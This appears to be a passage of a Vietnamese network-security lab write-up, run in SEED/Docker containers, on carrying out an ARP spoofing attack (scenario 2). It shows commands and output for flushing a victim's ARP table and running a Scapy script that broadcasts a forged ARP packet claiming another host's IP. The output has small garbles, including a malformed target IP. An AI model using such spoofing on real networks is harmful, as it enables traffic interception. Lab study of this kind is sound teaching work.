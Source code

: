#### 3. Thực hiện tấn công
- Đưa `scenario2.py` vào Attacker
```bash
[12/16/24]seed@VM:~/.../Lab02$ cd attack/
[12/16/24]seed@VM:~/.../attack$ docker cp  scenario2.py 81:/tmp
```

- Kiểm tra ở phía attacker
```bash
root@81ecd9dd554d:/tmp# ls
scenario1.py  scenario2.py
```

- Reset arp table của User 
```bash
root@e38b224c176e:/# ip neigh flush all
root@e38b224c176e:/# arp -n
root@e38b224c176e:/#
```

và cập nhật lại: 
```bash
root@e38b224c176e:/# ping 10.61.7.20
PING 10.61.7.20 (10.61.7.20) 56(84) bytes of data.
64 bytes from 10.61.7.20: icmp_seq=1 ttl=64 time=0.904 ms
64 bytes from 10.61.7.20: icmp_seq=2 ttl=64 time=0.138 ms
64 bytes from 10.61.7.20: icmp_seq=3 ttl=64 time=0.128 ms
^C
--- 10.61.7.20 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2030ms
rtt min/avg/max/mdev = 0.128/0.390/0.904/0.363 ms
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
```
- Bật WireShark để bắt traffic tại card mạng giống như kịch bản 1

- Thực thi code tấn công tại Attacker
```bash
sendp(pkt)root@81ecd9dd554d:/tmp# python3 scenario2.py
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 02:42:0a:3d:07:33
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = who-has
     hwsrc     = 02:42:0a:3d:07:33
     psrc      = 10.61.7.20
     hwdst     = ff:ff:ff:ff:ff:ff
     pdst      = '10.61.7.1611'

.
Sent 1 packets.
```
